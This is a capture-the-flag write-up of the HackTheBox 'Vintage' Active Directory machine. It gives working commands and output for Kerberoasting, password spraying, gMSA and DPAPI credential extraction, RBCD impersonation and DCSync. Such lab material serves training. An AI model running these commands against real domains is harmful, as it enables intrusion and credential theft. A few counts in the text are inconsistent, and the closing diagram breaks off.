








# Vintage — HackTheBox Write-up

**Date:** 24 July 2026 \
**Difficulty:** Super Hard  \
**OS:** Windows Server (Active Directory) \
**Domain/Hostname:** vintage.htb / dc01.vintage.htb  \
**Target IP:** 10.129.231.205  \
**Attacker Host:** hyena@hyena \
**Pentester:** RavenHex

---


## 1. Overview

Vintage is a Hard Windows Active Directory machine built around an assumed-breach scenario. ADCS is **not** installed and NTLM authentication is **disabled domain-wide**, forcing every tool interaction through Kerberos. No single vulnerability grants domain compromise; instead, a pre-created computer account with a weak default password, a misconfigured OU, nested group abuse, password reuse, a recoverable DPAPI credential blob, and an RBCD misconfiguration are chained together to reach DCSync and full domain compromise.

The attack chain is as follows:

1. **RID Brute Force** — Authenticated SMB/LDAP access as `P.Rosa` reveals the full domain user list, several custom groups (`IT`, `HR`, `Finance`, `ServiceAccounts`, `DelegatedAdmins`, `ServiceManagers`), and two computer accounts (`gMSA01$`, `FS01$`) that don't fit the standard AD pattern.
2. **Pre-Created Computer Account** — `FS01$` has a password equal to its own `sAMAccountName` (`fs01`), yielding a TGT with zero prior credentials beyond the initial breach account.
3. **gMSA Managed Password Disclosure** — The `Domain Computers` OU is misconfigured to allow reading `msDS-ManagedPassword` on `gMSA01$`, and `FS01$` falls under that OU by default.
4. **Group Self-Addition** — `gMSA01$`'s hash is used to authenticate and add itself to `ServiceManagers`, inheriting `GenericAll` over three service accounts (`svc_sql`, `svc_ldap`, `svc_ark`).
5. **Account Re-Enablement** — `svc_sql` is discovered disabled (silently excluded from Kerberoasting); the inherited `GenericAll` right is used to clear its `ACCOUNTDISABLE` flag.
6. **Targeted Kerberoasting** — With `svc_sql` re-enabled, targeted Kerberoasting captures TGS hashes for all three service accounts.
7. **Password Cracked** — `svc_sql`'s hash is cracked offline to `Zer0the0ne`.
8. **Password Spray → Lateral Movement** — The cracked password is sprayed across the domain and found to also work for `C.Neri`, a member of `Remote Management Users` (WinRM access, user flag).
9. **DPAPI Credential Extraction** — A DPAPI-protected Credential Manager blob in `C.Neri`'s profile is downloaded alongside its master key and decrypted using `C.Neri`'s own password, yielding credentials for `c.neri_adm`.
10. **ACL Abuse (RBCD Setup)** — `c.neri_adm` holds `GenericWrite`/`AddSelf` over `DelegatedAdmins`, which itself holds `AllowedToAct` (RBCD) rights on `DC01$`. `FS01$` is added to `DelegatedAdmins` to obtain an SPN-holding principal in the delegation chain.
11. **S4U2Self/S4U2Proxy** — `FS01$`'s credentials are used to request a forwardable service ticket impersonating `L.BIANCHI_ADM` (a Domain Admin) against `DC01$`.
12. **DCSync** — The forged ticket is used to DCSync the Administrator hash directly from the real DC.
13. **Root Flag** — The `L.BIANCHI_ADM` ticket (Administrator itself is restricted from network logon) is used to obtain code execution and the root flag.

---

## 2. Reconnaissance

### 2.1 Full TCP Port Scan

The first step against any target is a complete, unfiltered picture of what's reachable — a partial scan (e.g. the default top-1000 ports) can easily miss the one non-standard port that matters. SYN scanning (`-sS`) is faster and stealthier than a full TCP connect scan; `-Pn` skips host discovery since ICMP is frequently filtered on hardened Windows hosts; and scanning all 65,535 ports at a high rate trades a small amount of time for certainty nothing is missed.

```bash
hyena@hyena$ nmap -sS -Pn -min-rate 5000 --max-retries 1 -T4 -p- 10.129.231.205
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-24 09:30 +0000
Nmap scan report for 10.129.231.205
Host is up (0.38s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49515/tcp open  unknown
49664/tcp open  unknown
49668/tcp open  unknown
49676/tcp open  unknown
49687/tcp open  unknown
65311/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 27.35 seconds
```

The port list is immediately recognizable as a Windows Active Directory Domain Controller: Kerberos (88), LDAP/Global Catalog (389/3268/3269), SMB (445), and the RPC/WinRM ports that come with every domain-joined Windows box.

### 2.2 Service & Version Detection

Once the open port list is known, a second, narrower scan can afford heavier checks — version detection, default NSE scripts, and OS fingerprinting — without paying the cost of running them across all 65,535 ports. This step confirms the domain name, DC hostname, SMB signing requirement, and clock skew, all of which matter for later Kerberos-based work.

```bash
hyena@hyena$ nmap -sC -sV -O -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49515,49664,49668,49676,49687,65311 10.129.231.205
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-24 09:32 +0000
Nmap scan report for 10.129.231.205
Host is up (0.40s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-24 09:36:36Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49515/tcp open  msrpc         Microsoft Windows RPC
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49687/tcp open  msrpc         Microsoft Windows RPC
65311/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|10|11|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 3m31s
| smb2-time: 
|   date: 2026-07-24T09:37:55
|_  start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 140.34 seconds
```

**Key takeaways:**
- Domain confirmed as `vintage.htb`, DC hostname `DC01`.
- SMB signing is **enabled and required**, ruling out relay-based attacks against this host directly.
- A ~3.5 minute clock skew is present — this becomes directly relevant later (see Issue #1 in §9).

### 2.3 Initial Credentials & Share Enumeration

The assessment begins from an assumed-breach standpoint with low-privileged credentials already in hand:

```
Username: P.Rosa
Password: Rosaisbest123
```

```bash
hyena@hyena$ nxc smb 10.129.231.205 -u P.Rosa -p 'Rosaisbest123' --shares -k
SMB         10.129.231.205  445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         10.129.231.205  445    dc01             [+] vintage.htb\P.Rosa:Rosaisbest123 
SMB         10.129.231.205  445    dc01             [*] Enumerated shares
SMB         10.129.231.205  445    dc01             Share           Permissions            Remark
SMB         10.129.231.205  445    dc01             -----           -----------            ------
SMB         10.129.231.205  445    dc01             ADMIN$                                 Remote Admin
SMB         10.129.231.205  445    dc01             C$                                     Default share
SMB         10.129.231.205  445    dc01             IPC$            READ                   Remote IPC
SMB         10.129.231.205  445    dc01             NETLOGON        READ                   Logon server share 
SMB         10.129.231.205  445    dc01             SYSVOL          READ                   Logon server share 
```

Only the default AD shares are present. `NETLOGON` and `SYSVOL` were browsed manually with read access; no useful scripts, GPP passwords, or credential material were found.

### 2.4 LDAP Group Enumeration

```bash
hyena@hyena$ nxc ldap 10.129.231.205 -u P.Rosa -p 'Rosaisbest123' --groups -k
LDAP        10.129.231.205  389    DC01             [*] None (name:DC01) (domain:vintage.htb) (signing:None) (channel binding:No TLS cert) (NTLM:False)
LDAP        10.129.231.205  389    DC01             [+] vintage.htb\P.Rosa:Rosaisbest123 
LDAP        10.129.231.205  389    DC01             -Group-                                  -Members- -Description-
LDAP        10.129.231.205  389    DC01             Administrators                           3         Administrators have complete and unrestricted access to the computer/domain
LDAP        10.129.231.205  389    DC01             Domain Admins                            2         Designated administrators of the domain
LDAP        10.129.231.205  389    DC01             Enterprise Admins                        1         Designated administrators of the enterprise
LDAP        10.129.231.205  389    DC01             Schema Admins                            1         Designated administrators of the schema
LDAP        10.129.231.205  389    DC01             Remote Desktop Users                     1         Members in this group are granted the right to logon remotely
LDAP        10.129.231.205  389    DC01             Remote Management Users                  2         Members of this group can access WMI resources over management protocols
LDAP        10.129.231.205  389    DC01             DnsAdmins                                0         DNS Administrators Group
LDAP        10.129.231.205  389    DC01             IT                                       0         
LDAP        10.129.231.205  389    DC01             HR                                       0         
LDAP        10.129.231.205  389    DC01             Finance                                  0         
LDAP        10.129.231.205  389    DC01             ServiceAccounts                          3         
LDAP        10.129.231.205  389    DC01             DelegatedAdmins                          2         
LDAP        10.129.231.205  389    DC01             ServiceManagers                          3         
```

*(Output trimmed of every other built-in AD group returned at default/empty membership — Guests, Print Operators, Backup Operators, Cert Publishers, Protected Users, RODC-related groups, etc.)*

Five custom groups exist beyond the AD defaults — `IT`, `HR`, `Finance`, `ServiceAccounts`, `DelegatedAdmins`, `ServiceManagers` — and these turn out to be the backbone of the entire attack chain.

### 2.5 RID Brute Force

```bash
hyena@hyena$ nxc smb 10.129.231.205 -u P.Rosa -p 'Rosaisbest123' --rid-brute -k
SMB         10.129.231.205  445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         10.129.231.205  445    dc01             [+] vintage.htb\P.Rosa:Rosaisbest123 
SMB         10.129.231.205  445    dc01             500: VINTAGE\Administrator (SidTypeUser)
SMB         10.129.231.205  445    dc01             501: VINTAGE\Guest (SidTypeUser)
SMB         10.129.231.205  445    dc01             502: VINTAGE\krbtgt (SidTypeUser)
SMB         10.129.231.205  445    dc01             1002: VINTAGE\DC01$ (SidTypeUser)
SMB         10.129.231.205  445    dc01             1103: VINTAGE\DnsAdmins (SidTypeAlias)
SMB         10.129.231.205  445    dc01             1107: VINTAGE\gMSA01$ (SidTypeUser)
SMB         10.129.231.205  445    dc01             1108: VINTAGE\FS01$ (SidTypeUser)
SMB         10.129.231.205  445    dc01             1111: VINTAGE\M.Rossi (SidTypeUser)
SMB         10.129.231.205  445    dc01             1112: VINTAGE\R.Verdi (SidTypeUser)
SMB         10.129.231.205  445    dc01             1113: VINTAGE\L.Bianchi (SidTypeUser)
SMB         10.129.231.205  445    dc01             1114: VINTAGE\G.Viola (SidTypeUser)
SMB         10.129.231.205  445    dc01             1115: VINTAGE\C.Neri (SidTypeUser)
SMB         10.129.231.205  445    dc01             1116: VINTAGE\P.Rosa (SidTypeUser)
SMB         10.129.231.205  445    dc01             1120: VINTAGE\IT (SidTypeGroup)
SMB         10.129.231.205  445    dc01             1121: VINTAGE\HR (SidTypeGroup)
SMB         10.129.231.205  445    dc01             1122: VINTAGE\Finance (SidTypeGroup)
SMB         10.129.231.205  445    dc01             1123: VINTAGE\ServiceAccounts (SidTypeGroup)
SMB         10.129.231.205  445    dc01             1131: VINTAGE\DelegatedAdmins (SidTypeGroup)
SMB         10.129.231.205  445    dc01             1134: VINTAGE\svc_sql (SidTypeUser)
SMB         10.129.231.205  445    dc01             1135: VINTAGE\svc_ldap (SidTypeUser)
SMB         10.129.231.205  445    dc01             1136: VINTAGE\svc_ark (SidTypeUser)
SMB         10.129.231.205  445    dc01             1137: VINTAGE\ServiceManagers (SidTypeGroup)
SMB         10.129.231.205  445    dc01             1140: VINTAGE\C.Neri_adm (SidTypeUser)
SMB         10.129.231.205  445    dc01             1141: VINTAGE\L.Bianchi_adm (SidTypeUser)
```

**Key takeaways — full user inventory now built:**

| RID | Account | Type | Notes |
|:----|:--------|:-----|:------|
| 500 | Administrator | User | Built-in |
| 502 | krbtgt | User | Built-in |
| 1002 | DC01$ | Computer | Domain Controller |
| 1107 | gMSA01$ | Computer/gMSA | Group Managed Service Account — password-readable via OU misconfig |
| 1108 | FS01$ | Computer | Pre-created; password equals `sAMAccountName` |
| 1111 | M.Rossi | User | Standard user |
| 1112 | R.Verdi | User | Standard user |
| 1113 | L.Bianchi | User | Standard user |
| 1114 | G.Viola | User | Standard user |
| 1115 | C.Neri | User | Reused `svc_sql`'s password; Remote Management Users |
| 1116 | P.Rosa | User | Known credentials (assumed breach) |
| 1134 | svc_sql | User | Service account — disabled, Kerberoasting target |
| 1135 | svc_ldap | User | Service account — Kerberoasting target |
| 1136 | svc_ark | User | Service account — Kerberoasting target |
| 1140 | C.Neri_adm | User | Admin-tier "\_adm" account — recovered via DPAPI |
| 1141 | L.Bianchi_adm | User | Admin-tier "\_adm" account — Domain Admin, impersonated via RBCD |

Two computer accounts stand out — `gMSA01$` and `FS01$` — and the `_adm` naming convention on `C.Neri_adm`/`L.Bianchi_adm` signals a tiered admin model.



BloodHound confirms the relationship graph: `P.Rosa` is only in `Domain Users`; the interesting path runs through the computer accounts and the custom groups above.

---

## 3. Foothold via Pre-Created Computer Account

**Concept:** The machine synopsis-level hint — a pre-created computer account whose password equals its `sAMAccountName` — is tested directly against `FS01$`, discovered during RID brute forcing.

### 3.1 TGT for FS01$

```bash
hyena@hyena$ impacket-getTGT 'vintage.htb/fs01$':'fs01'
hyena@hyena$ export KRB5CCNAME=fs01\$.ccache
```

**Result:** A valid TGT for `FS01$` is obtained using only its own `sAMAccountName`-derived password — no prior credentials beyond the initial breach account were required to discover this.

### 3.2 Reading the gMSA Managed Password

**Concept:** The `Domain Computers` OU is misconfigured to allow reading `msDS-ManagedPassword` on `gMSA01$`, and `FS01$`, as a domain-joined computer account, falls under that OU by default.

```bash
hyena@hyena$ bloodyAD -k --host dc01.vintage.htb -d vintage.htb -u 'FS01$' -p 'fs01' \
  get object 'gmsa01$' --attr msDS-ManagedPassword
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178
```



**Why This Worked:** gMSA passwords are only supposed to be readable by principals explicitly authorized in `msDS-GroupMSAMembership`. An OU-level misconfiguration extended that read right to every computer object under `Domain Computers`, including `FS01$`.

---

## 4. Privilege Escalation via ServiceManagers → Kerberoasting

### 4.1 TGT for gMSA01$ and Group Self-Addition

```bash
hyena@hyena$ impacket-getTGT -hashes :b3a15bbdfb1c53238d4b50ea2c4d1178 'vintage.htb/gmsa01$'@dc01.vintage.htb
hyena@hyena$ export KRB5CCNAME=gmsa01\$@dc01.vintage.htb.ccache

hyena@hyena$ bloodyAD -k --host dc01.vintage.htb -d VINTAGE.HTB add groupMember 'SERVICEMANAGERS' 'GMSA01$'
[+] GMSA01$ added to SERVICEMANAGERS
```

A fresh TGT is required afterward so the cached ticket's PAC reflects the new group membership:

```bash
hyena@hyena$ impacket-getTGT -hashes :b3a15bbdfb1c53238d4b50ea2c4d1178 'vintage.htb/gmsa01$'@dc01.vintage.htb
```

`ServiceManagers` grants `GenericAll` over three service accounts: `svc_ldap`, `svc_ark`, `svc_sql`.

### 4.2 Targeted Kerberoasting

```bash
hyena@hyena$ python3 targetedKerberoast.py -k --no-pass -U users1.txt -d vintage.htb --dc-host dc01.vintage.htb
```

Only two hashes returned initially (`svc_ark`, `svc_ldap`) — `svc_sql` was **disabled**, and the targeting script silently filters disabled accounts.

**Fix:** enable the account using the `GenericAll` right inherited via `ServiceManagers`:

```bash
hyena@hyena$ bloodyAD -k --host dc01.vintage.htb -d vintage.htb remove uac SVC_SQL -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_SQL's userAccountControl
```

Re-running the Kerberoast now returns all three hashes.



### 4.3 Cracking the Hash

```bash
hyena@hyena$ hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt
$krb5tgs$23$*svc_sql$VINTAGE.HTB$vintage.htb/svc_sql*$...:Zer0the0ne
```



**Result:** `svc_sql:Zer0the0ne`. `svc_ldap` and `svc_ark` hashes did not crack against rockyou.

---

## 5. Password Spray → Lateral Movement to C.Neri

### 5.1 Export Domain Users and Spray

```bash
hyena@hyena$ nxc ldap vintage.htb -k -u 'P.Rosa' -p 'Rosaisbest123' --users-export domain_users.txt

hyena@hyena$ kerbrute_linux_amd64 --dc dc01.vintage.htb -d vintage.htb passwordspray domain_users.txt 'Zer0the0ne'
[+] VALID LOGIN:  C.Neri@vintage.htb:Zer0the0ne
[+] VALID LOGIN:  svc_sql@vintage.htb:Zer0the0ne
```

`C.Neri` reused the service account's cracked password. `C.Neri` is a member of `Remote Management Users`, granting WinRM access.

### 5.2 WinRM Access (User Flag)

Because NTLM is disabled, password/hash-based `evil-winrm` fails — Kerberos must be configured locally first.

```bash
# krb5.conf pointed at VINTAGE.HTB / dc01.vintage.htb
hyena@hyena$ impacket-getTGT vintage.htb/c.neri:Zer0the0ne
hyena@hyena$ export KRB5CCNAME=c.neri.ccache
hyena@hyena$ evil-winrm -i dc01.vintage.htb -r vintage.htb
```

**Result:** `user.txt` retrieved from `C:\Users\C.Neri\Desktop\user.txt`.

---

## 6. DPAPI Credential Extraction → C.Neri_adm

**Concept:** DPAPI-protected secrets (saved credentials, browser passwords, etc.) are encrypted with a per-user master key that is itself encrypted with the user's own logon password/hash. Anyone who can authenticate as that user can decrypt their DPAPI blobs.

### 6.1 Locating and Downloading the Blob

While enumerating `C.Neri`'s profile, a DPAPI-protected credential blob was found:

```
C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials\C4BB96844A5C9DD45D5B6A9859252BA6
```

```powershell
*Evil-WinRM* PS C:\Users\C.Neri> download C4BB96844A5C9DD45D5B6A9859252BA6
```

The associated master key GUID (`99cf41a3-a552-4cf7-a8d7-aca2d6f7339b`) was located under:

```
C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\<SID>\99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
```

and downloaded as well. C.Neri's SID was resolved via:

```powershell
*Evil-WinRM* PS C:\Users\C.Neri> (Get-ADUser C.Neri).Sid.Value
# S-1-5-21-4024337825-2033394866-2055507597-1115
```

### 6.2 Decryption

```bash
hyena@hyena$ impacket-dpapi masterkey -sid S-1-5-21-4024337825-2033394866-2055507597-1115 \
  -password 'Zer0the0ne' -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b

hyena@hyena$ impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key <decrypted_masterkey>
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312
```

**Result:** Credentials for `c.neri_adm` recovered.

---

## 7. RBCD Abuse via DelegatedAdmins → Domain Compromise

### 7.1 The Theory

BloodHound shows `c.neri_adm` holds `GenericWrite`/`AddSelf` DACL rights over the `DelegatedAdmins` group. `DelegatedAdmins` in turn holds `AllowedToAct` (Resource-Based Constrained Delegation) rights on `DC01$`, which itself has `DCSync` privileges over the domain.

The principal added to `DelegatedAdmins` must have an SPN to be usable in the S4U2Self/S4U2Proxy chain — `FS01$` already qualifies as a computer account with default `HOST/`-style SPNs.



### 7.2 Add FS01$ to DelegatedAdmins and Perform the RBCD Chain

```bash
hyena@hyena$ bloodyAD -k --host dc01.vintage.htb -d VINTAGE.HTB -u C.Neri_ADM -p 'Uncr4ck4bl3P4ssW0rd0312' \
  add groupMember "DELEGATEDADMINS" 'fs01$'
[+] fs01$ added to DELEGATEDADMINS
```

Impersonate `L.BIANCHI_ADM` (Domain Admin) via S4U2Self/S4U2Proxy:

```bash
hyena@hyena$ impacket-getST -impersonate L.BIANCHI_ADM -spn host/dc01.vintage.htb 'vintage.htb/fs01$:fs01'
hyena@hyena$ export KRB5CCNAME=L.BIANCHI_ADM@host_dc01.vintage.htb@VINTAGE.HTB.ccache
```

### 7.3 DCSync

```bash
hyena@hyena$ impacket-secretsdump -k -no-pass dc01.vintage.htb
Administrator:500:aad3b435b51404eeaad3b435b51404ee:468c7497513f8243b59980f2240a10de:::
```



### 7.4 Administrator Shell (Root Flag)

Administrator itself is restricted from network logon; the `L.BIANCHI_ADM` service ticket is used instead for command execution:

```bash
hyena@hyena$ wmiexec.py -k -no-pass L.BIANCHI_ADM@dc01.vintage.htb -dc-ip 10.129.231.205
```

or, for an Evil-WinRM session, request an `HTTP` service ticket instead of `cifs`:

```bash
hyena@hyena$ impacket-getST -dc-ip 10.129.231.205 -spn 'HTTP/dc01.vintage.htb' \
  -impersonate L.BIANCHI_ADM -k 'vintage.htb/fs01$:fs01'
hyena@hyena$ export KRB5CCNAME=L.BIANCHI_ADM@HTTP_dc01.vintage.htb@VINTAGE.HTB.ccache
hyena@hyena$ evil-winrm -i dc01.vintage.htb -r vintage.htb
```

**Result:** `root.txt` retrieved from `C:\Users\Administrator\Desktop\root.txt`.

---

## 8. Attack Chain

```
P.Rosa:Rosaisbest123 (assumed breach)
    │
    ▼
FS01$:fs01  (pre-created computer account, weak default password)
    │  reads gMSA managed password (Domain Computers OU misconfig)
    ▼
gMSA01$ NTLM hash
    │  adds itself to ServiceManagers (GenericAll)
    ▼
GenericAll over svc_sql / svc_ldap / svc_ark
    │  enable disabled svc_sql + set SPN + targeted Kerberoast
    ▼
svc_sql : Zer0the0ne (cracked)
    │  password reuse
    ▼
C.Neri : Zer0the0ne (Remote Management Users → WinRM)
    │  DPAPI blob in Credential Manager
    ▼
